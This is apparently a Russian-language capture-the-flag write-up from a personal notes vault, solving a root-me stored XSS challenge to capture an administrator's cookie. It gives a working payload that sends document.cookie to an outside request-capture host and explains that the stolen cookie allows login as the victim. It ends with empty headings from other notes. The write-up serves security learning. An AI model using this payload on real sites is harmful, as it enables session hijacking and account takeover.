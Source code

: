 По заданию нам нужно захватить куки администратрора. Открываем сайт. Видим форму, где нужно ввести заголовок и сообщение. Введем, чтобы посмотреть, как наш ввод отобразится на форме.

![[Pasted image 20230108214125.png]]

![[Pasted image 20230108214131.png]]

Так. Попробуем проверить на XSS. В качестве пэйлоада я буду испольовать обычный алерт.

```
<script>alert(1);</script>
```

Как можно видеть, нам отобразилось окошко алерта, то есть внедренный код javascript сработал.

![[Pasted image 20230108214220.png]]

Так как это хранимые XSS, то есть возможность угнать куки других пользователей. Если у вас нету своего собственного сервера в глобальной сети, то можно воспольоваться этим сайтом.

![[Pasted image 20230108214250.png]]

Здесь нам дают адрес, по которому мы сможем наблюдать все запросы на этот адрес. Теперь внедрим следующий пэйлоад.

```js
<script>document.write("<img src='https://en0q0bu21ne0wq.x.pipedream.net/?cookie=" + document.cookie + "'></img>");</script>
```

Когда пользовательоткроет страницу с этим кодом, агент попытается загрузить картинку и выполнит запрос по данному адресу. В качестве параметра он будет использовать свой куки. Мы же потом посмотрим на параметр, с которым пришел запрос — это и будет куки.

![[Pasted image 20230108214335.png]]

Чем опасен угон куки? Вставив куки для этого сайта в своем браузере мы войдем на сайт от имени этого пользователя, пропустив процесс аутентификации.

## XSS - Server Side

**Платформа:** https://www.root-me.org/
**Уровень:** Easy




---
# [[Personal Knowledge Base/SECTIONS/20. CyberSec/21. CTF/Write-Ups/01. Web/00. PossibleThreats/SQL Injection/sql-injection|SQL Injection]]

## Portswigger: Lab №1 
